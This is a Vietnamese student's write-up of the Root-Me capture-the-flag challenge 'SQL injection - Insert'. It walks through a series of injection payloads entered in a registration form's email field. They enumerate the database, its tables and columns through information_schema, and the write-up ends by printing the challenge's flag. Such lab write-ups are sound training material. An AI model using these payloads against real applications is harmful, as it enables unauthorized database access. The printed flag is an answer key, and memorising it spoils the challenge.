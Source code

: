 # Challenge: SQL injection - Insert 
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Insert

- Bài này mới vào ta thấy có 2 form đăng nhập và đăng ký
<p align="center"><img src="./images/8.1.png"></p>
<p align="center"><img src="./images/8.2.png"></p>
- thử tìm kiếm thông tin về lệnh INSERTs trong MySQL để hiểu hơn về thử thách này
<p align="center"><img src="./images/8.3.png"></p>

- Ta thấy có thể chèn thêm dữ liệu ở vế sau phần sau vào được bảng, Vì thử đăng kí tài khoản và chèn các lệnh vào, thì ta thấy nó được chuyển sang dạng chuỗi, do vậy không thể làm gì được với input thứ nhất, bằng cách bộ input thứ 2 vào trường email, ta có thể khai thác được...

- Kiểm tra ngay với input phía dưới ta nhận được thông báo `You can logged in ! Authentification.
`

```
username = laongoc2k1
password = laongoc2k1
email = laongoc2k1'),('laongoc2k2','laongoc2k2',(select database()));-- -
```

- Đăng nhập với người dùng laongoc2k2 ta được <p align="center"><img src="./images/8.4.png"></p>
> Có 1 database là c_webserveur_33

```
username = laongoc2k30
password = laongoc2k30
email = laongoc2k3'),('laongoc2k3','laongoc2k3',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' limit 1));-- -
```
--> table: membres
<p align="center"><img src="./images/8.5.png"></p>

```
username = laongoc2k40
password = laongoc2k40
email = laongoc2k3'),('laongoc2k4','laongoc2k4',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' limit 1 offset 1));-- -
```
--> attack detected

```
username = laongoc2k41
password = laongoc2k41
email = laongoc2k3'),('laongoc2k42','laongoc2k42',(select concat(table_name) from information_schema.tables where table_schema='c_webserveur_33' and table_name!='membres' limit 1));-- -
```
--> table: flag

- Ta thấy có bảng flag, do vậy ta tìm sâu vào bảng này, tìm các cột của nó

```
username = laongoc2k5
password = laongoc2k5
email = laongoc2k3'),('laongoc2k51','laongoc2k51',(select concat(column_name) from information_schema.columns where table_name='flag' limit 1));-- -
```
--> colum: flag

- vậy bảng tên flag mà cột cũng tên flag luôn
```
username = laongoc2k6
password = laongoc2k6
email = laongoc2k3'),('laongoc2k61','laongoc2k61',(select concat(flag) from flag limit 1));-- -
```
--> flag is : moaZ63rVXUhlQ8tVS7Hw
<p align="center"><img src="./images/8.6.png"></p>

## Kết quả password là `moaZ63rVXUhlQ8tVS7Hw`